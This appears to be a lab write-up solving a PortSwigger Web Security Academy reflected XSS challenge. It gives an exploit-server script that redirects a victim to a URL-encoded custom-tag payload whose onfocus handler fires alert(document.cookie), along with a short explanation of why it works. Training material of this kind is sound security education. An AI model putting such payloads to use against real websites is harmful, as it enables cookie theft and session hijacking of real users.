 ![image](https://github.com/udayk01/Web-Security/assets/52235763/8502aa33-17f0-47aa-b2a2-fb38f5e84626)

## Solution:

![Screenshot 2024-04-17 125923](https://github.com/udayk01/Web-Security/assets/52235763/50ba4cc1-0057-4b93-a6f0-a1f5ff5ddc1d)

> Go to the exploit server and paste the following code, replacing YOUR-LAB-ID with your lab ID:

```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

![image](https://github.com/udayk01/Web-Security/assets/52235763/6af7c6c7-7267-42b7-b7cb-8ba81f7340d5)

> Click "Store" and "Deliver exploit to victim".

![image](https://github.com/udayk01/Web-Security/assets/52235763/6bf607f9-7737-469b-975f-7265a5e56ffd)

> This injection creates a custom tag with the ID x, which contains an onfocus event handler that triggers the alert function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called.

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/634d8bee-d2f2-44d1-9efe-67d80b23b159)
